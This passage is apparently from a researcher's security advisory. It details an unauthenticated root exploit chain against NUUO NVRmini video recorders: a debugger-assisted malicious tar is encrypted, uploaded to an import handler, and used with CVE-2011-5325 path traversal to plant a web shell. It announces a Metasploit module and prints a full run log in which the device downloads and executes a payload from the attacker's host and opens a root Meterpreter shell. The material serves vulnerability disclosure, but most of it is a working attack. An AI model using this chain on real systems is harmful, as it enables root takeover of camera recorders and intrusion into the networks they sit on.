 This is the point in the `exportuser` handler that opens a file for encryption. We run the program and then when it breaks we go to the `/tmp/tmpXXXX` directory (XXXX is the program's `PID`). 
In this directory there will be a `_stuff.tgz` file and we will overwrite it with the contents of the file created in Snippet #1 above.

We then set a breakpoint at offset `0x2ADBC`:
```c
remove(encrypted_file);
```

At this point, we copy `/tmp/stuff.cfg` to `/tmp/whatever` and we can then continue the program and exit the debugger.

The `/tmp/whatever` file will now be encrypted with a malicious `tar` inside that can be used to pwn any firmware version, and we exfiltrate it back to our computer.

We upload this file to `http://TARGET/handle_import_user.php` in an HTTP POST form, the file is decrypted, and then when it is untar'ed we abuse [CVE-2011-5325](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-5325) to perform path traversal and drop a web shell on `/NUUO/web/shelly.php`, which will execute as root!

### Metasploit Module
I am releasing a [new Metasploit](https://github.com/pedrib/PoC/blob/master/exploits/metasploit/nuuo_nvrmini_unauth_rce_r2.rb) [module](https://github.com/rapid7/metasploit-framework/pull/16044) that packages the whole exploit chain described in this advisory.
The exploit works in virtually all firmware versions ever released (see sub section below for caveat)!

A typical run of the exploit looks like this:
```
msf6 exploit(linux/http/nuuo_nvrmini_unauth_rce_r2) > exploit
[*] Started reverse TCP handler on 192.168.241.1:4444
[*] 192.168.241.61:80 - Uploading initial payload...
[+] 192.168.241.61:80 - We now have root access via /shelly.php, using it to deploy payload...
[*] 192.168.241.61:80 - Starting up our web service on http://192.168.241.1:4445/hWICscieDptfuL ...
[*] Using URL: http://192.168.241.1:4445/hWICscieDptfuL
[*] 192.168.241.61:80 - Asking the device to download and execute http://192.168.241.1:4445/hWICscieDptfuL
[*] 192.168.241.61:80 - Sending the payload to the device...
[*] Sending stage (903360 bytes) to 192.168.241.61
[+] Deleted /NUUO/web/shelly.php
[*] Meterpreter session 5 opened (192.168.241.1:4444 -> 192.168.241.61:40979 ) at 2022-01-07 23:14:29 +0000
[+] 192.168.241.61:80 - Shell incoming!
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > shell
Process 14664 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
uname -a
Linux NVR 2.6.31.8 #1 Thu Oct 11 09:18:12 CST 2018 armv5tel GNU/Linux
cat /etc/titan.conf
[Version]
Kernel=2.6.31.8.0006
MIN_Kernel=2.6.31.8.0000
OS=03.11.0000.0016
MIN_OS=01.06.0000.0113
NVR=03.11.0000.0016
MIN_NVR=01.06.0000.0113
(...)
NVRReleaseDate=20211110
(...)
```